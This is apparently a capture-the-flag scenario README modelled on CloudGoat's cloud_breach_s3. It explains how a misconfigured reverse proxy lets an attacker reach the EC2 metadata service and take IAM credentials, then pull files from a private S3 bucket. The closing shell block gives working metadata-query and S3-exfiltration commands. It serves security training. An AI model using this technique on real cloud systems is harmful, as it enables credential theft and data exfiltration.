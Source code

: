 # cloud proxy

Based off the [cloudgoat cloud_breach_s3](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md) challenge.

Uses a separate AWS account under the same org as our main account.

## Scenario Resources

* 1 VPC with:
  * EC2 x 1
  * S3 x 1

## Scenario Start(s)

1. The IP Address of an EC2 server that is running a misconfigured reverse proxy

## Scenario Goal(s)

Download the confidential files from the S3 bucket.

## Summary

Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

## Exploitation Route(s)

![Scenario Route(s)](https://www.lucidchart.com/publicSegments/view/3ffe907e-6281-47e9-b7bf-e07fdcb48103/image.png)

## Route Walkthrough - Anonymous Attacker

1. The attacker finds the IP of an EC2 instance by shady means, and after some reconnaissance realizes that it is acting as a reverse-proxy server. This is common, especially for organizations in the process of moving from on-premise to the cloud.
2. After some research, the attacker uses `CURL` to send a request to the web server and set the host header to the IP address of EC2 metadata service.
3. The attacker's specially-crafted CURL command is successful, returning the Access Key ID, Secret Access Key, and Session Token of the IAM Instance Profile attached to the EC2 instance.
4. With the IAM role's credentials in hand, the attacker is now able to explore the victim's cloud environment using the powerful permissions granted to the role.
5. The attacker is then able to list, identify, and access a private S3 bucket.
6. Inside the private S3 bucket, the attacker finds several files full of sensitive information, and is able to download these to their local machine for dissemination.

``` shell
http Host:169.254.169.254 cloud-proxy.ctf.jumpwire.ai/latest/meta-data/iam/security-credentials/

http Host:169.254.169.254 cloud-proxy.ctf.jumpwire.ai/latest/meta-data/iam/security-credentials/<ec2-role-name>

export AWS_PROFILE=iam
aws configure
# make sure to add
# aws_session_token = <session-token>
# to ~/.aws/credentials

aws s3 ls
aws s3 cp s3://<bucket-name>/cardholder-data.txt -
```
